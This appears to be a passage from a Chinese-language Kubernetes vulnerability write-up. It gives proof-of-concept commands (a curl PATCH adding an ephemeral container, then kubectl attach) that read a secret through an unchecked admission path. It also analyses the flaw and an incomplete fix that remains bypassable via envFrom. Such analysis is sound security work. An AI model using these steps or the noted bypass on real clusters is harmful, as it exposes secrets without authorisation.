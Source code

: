   ```json
                    }
                }]
            }
        ]
    }
  }
  ```
  - 创建临时容器
  ```shell
  curl http://127.0.0.1:8001/api/v1/namespaces/default/pods/test/ephemeralcontainers -X PATCH -H "Content-Type: application/strategic-merge-patch+json" -d "`cat ephemeral.json`"
  ```
- 登录临时容器，查看环境变量中是否包含`my-secret`
```shell
kubectl attach -it -c debugger test
```
![](./poc.png)

## 六、漏洞分析

### 1. 原始特性分析

`EphemeralContainer`临时容器主要应用于对正在运行的`Pod`进行调试，排查错误

### 2. 调用链分析

### 3. 漏洞分析
`kube-apiserver`的`securityaccount admission plugin`没有对`EphemeralContainer`挂载`Secret`进行权限校验

## 七、漏洞修复分析

增加权限校验，但只校验了`env`方式挂载`secret`而没有校验`envFrom`挂载的方式，故未修复完整，仍可绕过
```patch
diff --git a/plugin/pkg/admission/serviceaccount/admission.go b/plugin/pkg/admission/serviceaccount/admission.go
index 769a115aef5c..c844a051c24b 100644
--- a/plugin/pkg/admission/serviceaccount/admission.go
+++ b/plugin/pkg/admission/serviceaccount/admission.go
@@ -349,6 +362,36 @@ func (s *Plugin) limitSecretReferences(serviceAccount *corev1.ServiceAccount, po
 	return nil
 }
 
+func (s *Plugin) limitEphemeralContainerSecretReferences(pod *api.Pod, a admission.Attributes) error {
+	// Require ephemeral container pods to have service accounts
```